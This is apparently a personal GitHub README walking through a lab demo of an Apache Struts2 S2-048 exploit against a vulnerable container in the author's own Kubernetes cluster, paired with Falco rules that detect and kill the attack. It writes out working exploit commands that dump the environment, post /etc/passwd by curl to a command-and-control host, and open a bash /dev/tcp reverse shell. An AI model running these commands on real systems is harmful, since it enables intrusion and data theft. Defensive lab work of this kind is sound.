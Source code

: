 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did was make it work in EKS  

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  

![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)


`Here's a bit of a reminder to myself for how I did this:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

First, on the cc server, start some simple web server such as: python3 webserver.py  

`Step 2`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment from our struts box, to our attacker "box" and see it on STDOUT... not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  
  
`Step 3`  

OK that was fun, what else can we do? Curl?  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080\hi_from_inside_the_container_in_our_cluster

I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! We can get granular enough to tell the difference between a curl POST and a curl GET that is awesome!  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

`Step 4`  

OK now with our confidence sky high, through the roof, let's post the whole dang passwd file to our CC server here we go:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080

And believe me, that works! We see the passwd file appearing in our CC server.  
But we want to block it, easy enough, we simply enable a policy with a Falco rule to kill the container iif there is a curl POST  
And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times)  

`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

